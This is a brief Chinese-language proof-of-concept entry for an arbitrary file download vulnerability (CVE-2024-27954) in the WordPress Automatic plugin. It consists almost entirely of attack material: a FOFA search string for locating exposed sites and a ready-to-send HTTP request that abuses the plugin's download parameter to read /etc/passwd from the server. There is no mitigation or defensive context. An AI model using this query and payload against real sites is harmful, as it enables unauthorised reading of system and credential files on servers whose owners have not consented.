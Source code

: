 ## WordPress Automatic Plugin任意文件下载漏洞(CVE-2024-27954)

## fofa
```
"/wp-content/plugins/wp-automatic"
```

## poc
```
GET /?p=3232&wp_automatic=download&link=file:///etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

![8053915951936ca9109843fe4c581ce4](../../images/f5c6497f-29f9-47de-aa15-f072541a1d1b.png)
